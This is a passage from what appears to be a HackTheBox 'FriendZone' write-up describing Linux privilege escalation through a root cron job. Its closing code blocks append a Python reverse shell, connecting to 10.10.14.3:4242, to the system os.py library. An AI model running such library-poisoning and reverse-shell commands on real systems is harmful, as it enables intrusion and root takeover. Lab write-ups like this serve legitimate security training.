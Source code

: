 ![linpeas-writable-files](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/friendzone/linpeas-writable-files.png)

Since our current user has not high privileges, we're running [pspy]((https://github.com/DominicBreuker/pspy)) to identify cron jobs that we don't have permission to see:

![pspy](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/friendzone/pspy.png)

`/opt/server_admin/reporter.py` seems to be executed from a cron job. We can read it:

```bash
$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 24  2019 .
drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
```

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
www-data@FriendZone:/opt/server_admin$
```

The script import **os** python's module that we can edit. So we just have to edit it and put a malicious content in it:

```python
import socket,subprocess,pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",4242))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

```bash
$ printf '\nimport socket,subprocess,pty\ns = socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.3",4242))\ndup2(s.fileno(),0)\ndup2(s.fileno(),1)\ndup2(s.fileno(),2)\npty.spawn("/bin/bash")\n' >> /usr/lib/python2.7/os.py
```
